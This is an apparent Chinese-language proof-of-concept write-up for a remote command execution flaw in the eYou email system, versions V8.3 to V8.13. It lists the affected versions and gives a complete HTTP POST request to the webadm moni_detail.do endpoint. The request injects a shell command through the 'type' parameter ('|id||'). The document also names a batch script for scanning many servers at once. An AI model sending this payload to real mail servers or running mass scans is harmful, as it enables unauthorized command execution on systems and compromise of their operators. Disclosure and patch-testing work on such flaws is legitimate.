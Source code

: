 # 0x00 软件介绍
北京亿中邮信息技术有限公司（亿邮）：提供邮件系统解决方案  
官网：http://www.eyou.net/index.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: mail.xxx.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 12

type='|id||'
```
返回如下图  
![image](./pic/0.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py
用法：python3.exe EYouMailRCE-Batch-Detect.py

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
